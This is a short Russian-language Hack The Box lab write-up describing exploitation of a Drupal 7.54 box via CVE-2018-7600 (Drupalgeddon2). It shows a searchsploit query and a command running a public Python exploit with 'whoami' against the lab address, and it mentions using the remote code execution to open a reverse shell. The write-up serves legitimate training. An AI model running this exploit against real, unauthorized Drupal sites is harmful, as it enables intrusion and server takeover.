### Экcплуатация

> На сегодня это правда последняя коробка с Hack The Box. [Вот ссылка](https://www.hackthebox.eu/home/machines/profile/7)

Результат сканирования:



При просмотре HTTP-сервера отображается страница входа в Drupal, которую nmap обнаружил как версию 7, но если мы перейдем к файлу CHANGELOG.txt, который также был обнаружен nmap, мы увидим, что точной версией является Drupal 7.54.



Я отправился в searchsploit

```bash
searchsploit drupal 7 remote
```

Результат состоял примерно из десяти кандидатов. Проведем среди них собеседование. Хе-хе.

Как оказалось, это было то, где я столкнулся с некоторыми проблемами и был немного разочарован. Я знал, что у metasploit есть модули для выполнения оттуда, поэтому я потратил некоторое время, пытаясь выполнить все из них, но безуспешно по какой-то странной причине.

Затем я вернулся к searchsploit, просмотрел список и выбрал те, которые потенциально могут быть. Я попытался запустить скрипт php, но столкнулся с ошибками при компиляции, я запустил скрипт ruby с похожими ошибками, и мне было просто тяжело читать оба этих скрипта и изменять то, что вызывало у меня ошибки, чтобы я мог хотя бы запустить эту штуку.

Моим следующим действием было зайти в Google и посмотреть, есть ли у кого-нибудь подобный эксплойт на более понятном мне языке и, желательно, с объяснениями.

Мне повезло, [здесь](https://github.com/pimps/CVE-2018-7600) я нашел то, что искал и все заработало.

Цель этого эксплойта состоит в том, чтобы создать RCE (удаленное выполнение кода), которое мы могли бы затем использовать для создания обратной оболочки, подобной в примере выше.

```bash
python3 drupal7-CVE-2018–7600.py -c “whoami” http://10.10.10.64
```

Результат был точно таким же, как и в описании в github. Это победа!
